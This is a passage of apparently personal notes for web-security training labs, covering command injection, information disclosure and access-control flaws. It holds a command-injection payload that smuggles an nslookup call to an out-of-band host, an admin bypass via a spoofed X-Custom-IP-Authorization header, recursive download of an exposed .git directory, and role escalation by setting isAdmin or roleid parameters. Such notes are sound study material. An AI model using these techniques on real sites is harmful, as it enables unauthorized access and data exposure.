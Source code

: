     feedback function
1. same as the previous lab
`email=x||nslookup+x.oum2tlyq67wdtqp2h71z3ellxc34rwfl.oastify.com||`

----
----

# Information Disclosure

**Information disclosure in error messages**
1. try input something weirdo in any entry point like /product?productId=SOMETHING
2. observe the error
---
**Information disclosure on debug page**
1. view page source or discover content by burp
2. find SECRET_KEY
---
**Source code disclosure via backup files**
1. check robots.txt
---
**Authentication bypass via information disclosure**

    admin
1. change method from GET to TRACE
2. add `X-Custom-IP-Authorization: 127.0.0.1` header
3. if it doesn't work go to Proxy > Options Match and Replace put the upper text in the section
---
**Information disclosure in version control history**
    
    login as admin
1. check for ./git
2. wget -r https://URL/.git/
3. use `git` commands

----
----

# Access Control Vulnerabilities

**Unprotected admin functionality**
1. check for /robots.txt
---
**Unprotected admin functionality with unpredictable URL**
1. check for Debugger or source code by web dev tool
---
**User role controlled by request parameter**
1. once login. check for login request is there any cookie or params that can be vuln? (e.g. isAdmin=false -> isAdmin=true)
---
**User role can be modified in user profile**
1. observe any function when logged in
2. change email is JSON and the response contain more params
3. add vuln params (e.g.isAdmin=true, "roleid":2) to the request with the function
---
**User ID controlled by request parameter**
    